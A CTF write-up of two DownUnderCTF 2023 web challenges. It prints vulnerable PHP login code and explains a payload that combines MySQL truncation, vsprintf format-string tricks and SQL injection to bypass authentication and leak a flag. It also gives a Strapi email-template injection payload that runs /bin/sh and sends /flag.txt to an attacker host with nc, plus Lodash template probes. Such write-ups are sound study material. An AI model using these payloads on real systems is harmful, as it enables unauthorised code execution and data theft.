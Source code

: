 ```yaml
---
title: What I learned from - downunderctf 2023- Web Section 
date: 2023-09-03 18:25:56
cover_image: https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png
cover_image_alt: About Comments
categories: Writeup
tags:
  - ctf 
  - downunderctf
---
```


# Smooth Jazz

## Source Code

```php
<?php
function mysql_fquery($mysqli, $query, $params) {
  return mysqli_query($mysqli, vsprintf($query, $params));
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  $mysqli = mysqli_connect('db', 'challuser', 'challpass', 'challenge');
  $username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
  $password = sha1($_POST['password']);

  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "%s"', [$username]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Username not found.";
     goto fail;
  }
  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "'.$username.'" AND password = "%s"', [$password]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Invalid password.";
     goto fail;
  }
  $htmlsafe_username = htmlspecialchars($username, ENT_COMPAT | ENT_SUBSTITUTE);
  $greeting = $username === "admin" 
      ? "Hello $htmlsafe_username, the server time is %s and the flag is %s"
      : "Hello $htmlsafe_username, the server time is %s";

  $message = vsprintf($greeting, [date('Y-m-d H:i:s'), getenv('FLAG')]);
  
  fail:
}
?>
```



## Prerequisite knowledge

- Mysql engine **truncates** string from the beginning of an invalid UTF8-encoding character.

- Familiarity with the **format** parameter and the behavior of the **vsprintf** function in PHP.

  - `vsprintf(string $format, mixed ...$values): string`

    - **Format parameter**: 

      - `%[argnum$][flags][width][.precision][specifier]`

        - Example: `%1$'as`

          > **%**: starting symbol
          >
          > **1$**: [argnums$] :match the first value from values that are passed in.
          >
          > **'a**: one option of the [flags] -> '(char): Replace blank with 'a' to pad the result string. For example, when [width] is set to 100 and the real length of the formatting string is only 5, the rest of the 95 characters would be padded with the letter 'a'.
          >
          > **s**: [specifier]: specify the data type for each data from inputted values. `%` is also a specifier, used for output real `%`, which is a tricky one for <u>smuggling</u> a new token by combining it with the **htmlspecialchars** function.

## Payload

```
POST /

username=admin%ff%251$c%23+%251$'>%25s&password=668
```

- **%ff**: truncates string after "admin". From the Mysql engine's perspective, <u>all the input characters are already determined as "admin"</u>.

- **%251$c** (URL DECODING)-> **%1$c**: a positional specifier tricks the sprints function to format string as we want. In other words, it controls the real transfer stream and achieves our expectations by combining with the password value.

  why we can't directly use %c to format the password field is that formatting a string usually works in order, rendering each item of an input array perspectively to each place of specifier. So we need to specify which data to render, avoiding the error.

  > PHP Fatal error:  Uncaught ValueError: The arguments array must contain 2 items, 1 given in /var/www/html/index.php:3\nStack trace:\n#0 /var/www/html/index.php(3): vsprintf()

- **password=668**: cha1(668) = 34cXXXXX. %34 represents a url-encoded **double-quote**. vsprintf("%1$c", 34) will generate a double-quote to exploit SQL Injection, <u>bypassing the password authentication</u>. 

- **%251$'>%25s** (URL DECODING)-> **%1$'>%s**:  the last step to do is get flag. Although we can not make the username totally match "admin", we can inject a specifier as above to exfiltrate the second 'FLAG' formatting input. 

- To that end, there is a problem emerging. We can not pass two specifiers into the username field, since the previous vsprintf functions all only accept one input value. That means if we directly pass two specifiers in, it will cause a error from php interpreters as we discussed above. So the key point is to leverage `htmlspecialchars` function to "create a specifier" for us. That is what this payload did.

- %1$'>%s --htmlspecialchars-->  %1$'\&gt;%s

  -  The first specifier: **%1$'&g**: a floating point number, taking from position 1, using & as padding char
  - followed by the string "t;"
  - The second specifier: **%s**: string taken from the 2nd position, that is where the FLAG is.

- That is how we arrived there.

# Strapi In

STRAPI IN quick writeup : 

step 1: create a  custom template with a reference id 1

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","nc **YOUR_IP YOUR_PORT** < /flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

step 2: visit the url: https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1 

**for debug**

`/opt/strapi-in/node_modules/strapi-plugin-email-designer/server/services/email.js:91:87`

![image-20230902190236092](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png)

![image-20230902190324305](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png)

## mustache template with Lodash SSTI payloads

```
{{= _.VERSION }}
{{= _.templateSettings.evaluate }}

```

https://github.com/janl/mustache.js

## Reference

https://www.php.net/manual/en/function.sprintf.php#Specifiers

https://www.php.net/manual/en/function.htmlspecialchars.php

https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py

https://www.geeksforgeeks.org/lodash-_-template-method/

https://twitter.com/rootxharsh/status/1268181937127997446?lang=en

https://www.ghostccamm.com/blog/multi_strapi_vulns/

https://lodash.com/docs/4.17.15#templateSettings